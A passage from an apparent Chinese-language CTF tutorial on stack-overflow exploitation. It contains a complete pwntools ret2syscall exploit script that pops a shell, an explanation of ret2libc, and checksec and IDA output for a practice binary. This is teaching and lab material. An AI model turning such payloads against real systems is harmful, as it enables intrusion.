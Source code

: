 4、构造脚本

```plain
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80 = 0x08049421
payload = flat(['A'*118,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,bin_sh_addr,int_0x80])

p.sendline(payload)
p.interactive()
```

## ret2libc

### 原理

动态链接的情况下，程序链接的时候不会将库中的所有函数都链接进来，只有在执行的时候加载相应的程序。所以控制执行lbic中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)，一般选择system("/bin/sh")

1、分3种情况：

*   程序中能够找到system函数和'/bin/sh'字符串
*   程序中只存在一个
*   程序中两者都不存在(准确来说，这种才是真正的ret2libc)

### 利用

1、检测程序开启的保护

```plain
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ checksec ret2libc3
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了NX保护,不能写入shell

2、IDA分析

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No surprise anymore, system disappeard QQ.");
  printf("Can you find it !?");
  gets(&s);
  return 0;
}
```
